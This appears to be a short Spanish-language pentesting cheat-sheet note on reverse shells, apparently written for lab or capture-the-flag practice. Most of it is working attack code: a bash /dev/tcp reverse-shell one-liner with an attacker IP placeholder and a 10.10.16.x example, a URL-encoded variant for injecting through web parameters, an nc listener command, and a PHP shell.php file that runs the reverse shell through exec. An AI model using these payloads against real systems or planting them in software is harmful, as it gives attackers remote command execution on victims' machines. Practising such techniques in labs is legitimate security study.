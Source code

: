 Una **reverse shell** sirve para que un atacante obtenga acceso remoto a una máquina víctima.  
La víctima inicia la conexión hacia el atacante, lo que **evade firewalls o NAT**, y le da al atacante una shell para ejecutar comandos remotamente.

--------

[Articulo con one liners que dan sirven para tirar la reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[Otro articulo de revershell en este saque de groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
El one liner que mas vamos a usar
```
bash -c 'bash -i >& /dev/tcp/IpNuestra/Puerto 0>&1'
Ejemplo: bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
```

Aveces tenemos que probar poner los & directamente con url enconde por que se pueden mal interpretar con el codigo
```
bash -c 'bash -i >%26 /dev/tcp/IpNuestra/Puerto 0>%261'
Ejemplo: bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/443 0>%261'
```

Mientras tenemos que estar en escucha con [[nc -nlvp 443]]



------
# Desde un archivo .php
Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```